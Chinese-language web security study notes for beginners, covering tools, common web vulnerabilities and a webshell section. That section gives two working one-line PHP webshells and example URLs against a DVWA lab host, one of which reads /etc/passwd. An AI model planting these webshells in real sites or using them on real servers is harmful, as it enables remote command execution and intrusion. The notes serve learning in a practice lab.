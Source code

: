 安全学习笔记



# 安全入门

1. 以Web安全入门
   - 基础知识：前端（HTML、CSS、JS等）、后端（PHP、Python、ASP等）、数据库（MySQL、SQL Server等）
   - 实验环境：靶机的使用（给定漏洞点，进行渗透操作）
   - 实验工具：
     - BurpSuite
     - sqlmap
     - beef xss framework







# Web

​		Web应用是一种BS架构的软件应用，其主要特点是减少了对客户端的性能要求，也即所谓的瘦客户端模式。



## 通信原理

HTTP协议







## Web漏洞

- 文件上传漏洞
- 文件包含漏洞
- SQL注入漏洞
- XSS漏洞



## Webshell

**小马**：一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数。

**大马**：代码量和功能比小马多，一般会进行二次编码加密，防止被安全防火墙/入侵检测系统检测到

```php
#eval 使用php函数，例如phpinfo()
<?php eval($_REQUEST['cmd']);?>

http://192.168.19.129/dvwa/hackable/uploads/shell.php?cmd=phpinfo();
```

```php
#system 使用Linux系统命令，例如ls,cp,rm...
<?php system($_REQUEST['cmd']);?>

http://192.168.19.129/dvwa/hackable/uploads/shell2.php?cmd=cat%20/etc/passwd
```
